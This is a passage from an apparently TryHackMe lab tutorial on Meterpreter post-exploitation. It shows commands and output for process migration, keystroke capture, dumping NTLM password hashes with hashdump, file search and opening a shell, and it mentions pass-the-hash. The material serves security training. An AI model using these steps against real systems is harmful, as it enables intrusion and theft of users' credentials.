 meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
The ps command will list running processes. The PID column will also give you the PID information you will need to migrate Meterpreter to another process.

Migrate
Migrating to another process will help Meterpreter interact with it. For example, if you see a word processor running on the target (e.g. word.exe, notepad.exe, etc.), you can migrate to it and start capturing keystrokes sent by the user to this process. Some Meterpreter versions will offer you the keyscan_start, keyscan_stop, and keyscan_dump command options to make Meterpreter act like a keylogger. Migrating to another process may also help you to have a more stable Meterpreter session.
To migrate to any process, you need to type the migrate command followed by the PID of the desired target process. The example below shows Meterpreter migrating to process ID 716.
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully.
Be careful; you may lose your user privileges if you migrate from a higher privileged (e.g. SYSTEM) user to a process started by a lower privileged user (e.g. webserver). You may not be able to gain them back.
Hashdump
The hashdump command will list the content of the SAM database. The SAM (Security Account Manager) database stores user's passwords on Windows systems. These passwords are stored in the NTLM (New Technology LAN Manager) format.
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
While it is not mathematically possible to "crack" these hashes, you may still discover the cleartext password using online NTLM databases or a rainbow table attack. These hashes can also be used in Pass-the-Hash attacks to authenticate to other systems that these users can access the same network.
Search
The search command is useful to locate files with potentially juicy information. In a CTF context, this can be used to quickly find a flag or proof file, while in actual penetration testing engagements, you may need to search for user-generated files or configuration files that may contain password or account information.
meterpreter > search -f flag2.txt
Found 1 result...
    c:\Windows\System32\config\flag2.txt (34 bytes)
Shell
The shell command will launch a regular command-line shell on the target system. Pressing CTRL+Z will help you go back to the Meterpreter shell.
meterpreter > shell
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
Post-Exploitation Challenge
Meterpreter provides several important post-exploitation tools.
Commands mentioned previously, such as getsystem and hashdump will provide important leverage and information for privilege escalation and lateral movement. Meterpreter is also a good base you can use to run post-exploitation modules available on the Metasploit framework. Finally, you can also use the load command to leverage additional tools such as Kiwi or even the whole Python language.
meterpreter > load python
Loading extension python...Success.
meterpreter > python_execute "print 'TryHackMe Rocks!'"
[+] Content written to stdout:
TryHackMe Rocks!
The post-exploitation phase will have several goals; Meterpreter has functions that can assist all of them.
Gathering further information about the target system.
Looking for interesting files, user credentials, additional network interfaces, and generally interesting information on the target system.
